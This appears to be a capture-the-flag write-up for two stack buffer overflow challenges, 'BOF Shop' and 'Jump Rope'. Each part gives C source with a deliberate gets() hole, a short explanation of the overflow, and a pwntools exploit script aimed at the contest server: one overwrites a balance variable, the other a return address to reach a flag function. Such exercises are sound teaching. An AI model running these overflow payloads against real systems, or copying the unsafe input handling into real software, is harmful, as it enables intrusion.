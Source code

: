 # BOF Shop

Buffer overflow on the name variable overflows unto the balance variable.
'd' character becomes 100 in ascii

C code provided
```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER 100
int main() {
  char flag[FLAG_BUFFER];
  FILE *fp = NULL;
  char name[16];
  int balance = 0;
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Hello there, welcome to the BOF Shop!");
  puts("What's your name?");
  printf("> ");
  gets(name);

  printf("Your balance: %d coins\n\n", balance);

  if (balance != 100) {
      puts("Sorry, but you need exactly 100 coins to purchase the flag.\nGoodbye.");
      exit(1);
  }

  fp = fopen("flag.txt", "r");
  if (fp == NULL) {
      puts("Please add flag.txt to the present working directory to test this file.\n");
      puts("If you see this on the remote server, please contact admin.");
      exit(1);
  }

  fgets(flag, FLAG_BUFFER, fp);
  puts("Wow. Here, take the flag in exchange for your 100 coins.");
  puts(flag);
}
```
Solution

```python
from pwn import *

conn = remote('bin.bcactf.com', 49174)
conn.recvuntil('name?'.encode())

payload = 'A' * 116 + 'd'
conn.sendline(payload.encode())

conn.interactive()
```

# Jump Rope

Jumping functions by poisoning the return register.
Buffer overflow into the return register, found by testing with core files and gdb anaylsis
Found that at after 520 chars, we reach the return register. 
Then to find the address of the a() function, we use objdump -t.

Source Code provided
```c
#include <stdio.h>
#include <stdlib.h>

void a() {
    FILE *fptr = fopen("flag.txt", "r");
    char flag[100];
    if(fptr == NULL){
        printf("\nLooks like we've run out of jump ropes...\n");
        printf("Challenge is misconfigured. Please contact admin if you see this.\n");
    }

    fgets(flag, sizeof(flag), fptr);
    puts(flag);
}

void jumprope(){
    char arr[500];
    printf("\nBetter start jumping!\n");
    gets(arr);
    printf("Woo, that was quite the workout wasn't it!\n");
}

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    printf("Here at BCA, fitness is one of our biggest priorities!\n");
    printf("Today's workout is going to be jumproping. Enjoy!\n");
    jumprope();

    return 1;
}
```

Solution

```python
from pwn import *

conn = remote('bin.bcactf.com', 49177)

conn.recvuntil('jumping!'.encode())

payload = 'A' * 520 + '\xb6\x11\x40'

conn.sendline(payload.encode('iso-8859-1'))

conn.interactive()
```